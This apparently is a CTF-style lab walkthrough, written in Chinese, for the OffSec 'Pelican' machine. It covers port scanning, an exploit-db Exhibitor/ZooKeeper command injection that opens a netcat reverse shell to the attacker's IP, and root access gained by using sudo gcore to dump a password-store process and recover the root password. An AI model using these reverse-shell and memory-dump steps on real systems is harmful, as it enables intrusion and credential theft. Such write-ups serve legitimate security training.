 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Pelican
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.227.98 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.227.98:22
Open 192.168.227.98:139
Open 192.168.227.98:631
Open 192.168.227.98:2181
Open 192.168.227.98:2222
Open 192.168.227.98:8080
Open 192.168.227.98:8081
Open 192.168.227.98:445
Open 192.168.227.98:34631

PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp   open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         syn-ack CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   syn-ack Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp  open  http        syn-ack Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp  open  http        syn-ack nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://192.168.227.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
34631/tcp open  java-rmi    syn-ack Java RMI
```

搜尋[edb-48654](https://www.exploit-db.com/exploits/48654)他說在`java.env script`這個欄位加入reverseshell

![Pelican_1.png](picture/Pelican_1.png)

前往`http://192.168.227.98:8080/exhibitor/v1/ui/index.html`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp445

## java.env script

$(/bin/nc -e /bin/sh 192.168.45.195 445 &)
```

得反彈，在`/home/charles`可得local.txt
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
charles@pelican:/opt/zookeeper$ 
charles@pelican:~$ cat local.txt
444e314b2441abf55faa91f9bc1eec11
```

使用`sudo -l`，查看[GTFOBins](https://gtfobins.github.io/gtfobins/gcore/#sudo)，但發現她要用`pid`
```
charles@pelican:/tmp$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

charles@pelican:/tmp$ sudo gcore $PID
usage:  gcore [-a] [-o filename] pid
```

看有沒有`password`的`pid`，是`496`
```
charles@pelican:/tmp$ ps aux | grep pass
ps aux | grep pass
root       496  0.0  0.0   2276    72 ?        Ss   22:05   0:00 /usr/bin/password-store
charles  31400  0.0  0.0   6076   820 pts/0    S+   22:32   0:00 grep pass
charles@pelican:/tmp$ sudo gcore 496
sudo gcore 496
0x00007f393b5ef6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffc612f38d0, remaining=remaining@entry=0x7ffc612f38d0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.496
[Inferior 1 (process 496) detached]
```

利用`strings`查看可以得到root的password，在/root可得proof.txt
```
charles@pelican:/tmp$ strings core.496
...
001 Password: root:
ClogKingpinInning731
...

charles@pelican:/tmp$ su root
Password: ClogKingpinInning731
root@pelican:~# cat proof.txt
cat proof.txt
c6e2d0de4640e326d3de29513185f978
```